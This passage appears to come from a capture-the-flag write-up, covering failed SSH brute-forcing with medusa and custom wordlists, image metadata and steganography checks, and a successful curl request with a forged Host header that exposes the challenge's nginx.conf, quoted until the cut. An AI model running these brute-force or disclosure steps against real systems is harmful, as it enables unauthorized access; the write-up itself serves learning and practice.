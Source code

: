 ```python
WORDS = WORDS + [ re.sub(r'_', " ", i) for i in WORDS]
WORDS = WORDS + [ i.lower() for i in WORDS ]
WORDS = WORDS + [ i.capitalize() for i in WORDS ]
# sort|uniq
WORDS = sorted(set(WORDS))
print("\n".join(WORDS))
```

That resulted in ~2200 words, which still counts as "light" in my books &#128578;
Then, I tried them:

```bash
medusa -h library.m0unt41n.ch -n 31847 -u root -P /data/wordlists/10k-most-common.txt -M ssh -t 5
medusa -h library.m0unt41n.ch -n 31847 -u facialrecognition -P /data/wordlists/10k-most-common.txt -M ssh -t 5
medusa -h library.m0unt41n.ch -n 31847 -u git -P /data/wordlists/10k-most-common.txt -M ssh -t 5
medusa -h library.m0unt41n.ch -n 31847 -u snake -P /data/wordlists/10k-most-common.txt -M ssh -t 5
```

But none of that worked.

## Image metadata / stego (FAIL)

First of all, not all these files are actually PNGs

```bash
for F in *.png; do file $F | grep -q "JPEG image data" && mv "$F" "${F/.png/.jpg}" ; done
for F in *.png; do file $F | grep -q "GIF image data" && mv "$F" "${F/.png/.gif}" ; done
```

I tried looking for metadata

```bash
exiftool -if '$xmp or $exif or $iptc' -ee3 -U -G3:1 -api requestall=3 -api largefilesupport  * | grep -Ev '^\[(ExifTool|System|File)'
```

I found some weird things (UUIDs, Creator data, XMP blobs), but nothing helped.

```bash
for F in ../*.png; do ~/.local/share/gem/ruby/gems/zsteg-0.2.13/bin/zsteg -a $F 2>&1 | dos2unix >$(basename $F).steg & done
```

## Scanning WWW (SUCCESS)

The headers we got above mention that the site is served by Nginx.
It turns out that the config is left in the open and we can get it with
`curl -v -H "Host: facialrecognition" http://library.m0unt41n.ch:30301/nginx.conf`:

```js
worker_processes 1;
daemon off;
user webapp webapp;

events {
    worker_connections 16;
}

http {
    include /etc/nginx/mime.types;
    server {
        listen 80;
        server_name facialrecognition;
        if ($host ~* "^[0-9]+\.[0-9]+\.[0-9]+\.[0-9]+$") {
            return 301 $scheme://facialrecognition$request_uri;
        }
        root /$host/webapp;
```